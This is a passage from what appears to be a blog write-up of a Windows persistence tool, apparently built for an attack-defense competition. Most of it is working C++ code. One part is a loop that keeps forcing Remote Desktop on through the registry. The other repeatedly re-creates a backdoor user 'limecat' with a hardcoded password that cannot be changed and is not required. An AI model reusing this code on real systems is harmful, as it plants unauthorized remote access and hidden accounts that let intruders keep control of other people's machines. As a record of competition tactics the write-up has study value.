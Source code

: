```cpp
					cout << "Failed to set RDP key" << endl;
				}
			}
			else{
				if (rdpVal[0] != (char)0){
					//set it back to 0!
					if (RegSetValueEx(rdpKey, L"fDenyTSConnections", NULL, REG_DWORD, (const BYTE*)&newVal, sizeof(DWORD)) != ERROR_SUCCESS){
						cout << "Failed to set RDP key" << endl;
					}
				}
			}
		}
		RegCloseKey(rdpKey);
		Sleep(4000);
		if (is_ending)
			break;
	}
```
More info: <a href="http://msdn.microsoft.com/en-us/library/ms724256%28VS.85%29.aspx">http://msdn.microsoft.com/en-us/library/ms724256%28VS.85%29.aspx</a>

<h3>User Adding and Re-Adding</h3>
This one was a must, we always need a user to get in with in case we get locked out. This was fun because it kept coming back. Yet another thread checking for the existence of the user "limecat" and adding it if it didn't exist every thirty seconds or so. Basically the code below shows the re-adding part, the checking was a whole other story that I'm keeping to myself. 
```cpp

	USER_INFO_1               user_info;
	LPWSTR                    lpszPrimaryDC = NULL;
	NET_API_STATUS            err = 0;
	DWORD                     parm_err = 0;

	//set new user attributes
	LPWSTR lpUser = L"limecat";
	LPWSTR lpPass = L"lolcat1!";
	user_info.usri1_name = lpUser;
	user_info.usri1_password = lpPass;
	user_info.usri1_priv = USER_PRIV_USER;
	user_info.usri1_home_dir = TEXT("");
	user_info.usri1_comment = TEXT("");
	user_info.usri1_flags = UF_SCRIPT \| UF_PASSWD_CANT_CHANGE \| UF_PASSWD_NOTREQD;
	user_info.usri1_script_path = TEXT("");

	//add the user if they don't exist
	if (!userExists){
		err = NetUserAdd(lpszPrimaryDC,    // PDC name 
			1,                         // level 
			(LPBYTE)&user_info,        // input buffer 
			&parm_err);                // parameter in error 

		switch (err)
		{
		case 0:
			printf("User successfully created.\\n");
			break;
		case NERR_UserExists:
			printf("User already exists.\\n");
			err = 0;
			break;
		case ERROR_INVALID_PARAMETER:
			printf("Invalid parameter error adding user; parameter index = %d\\n", parm_err);
			NetApiBufferFree(lpszPrimaryDC);
```
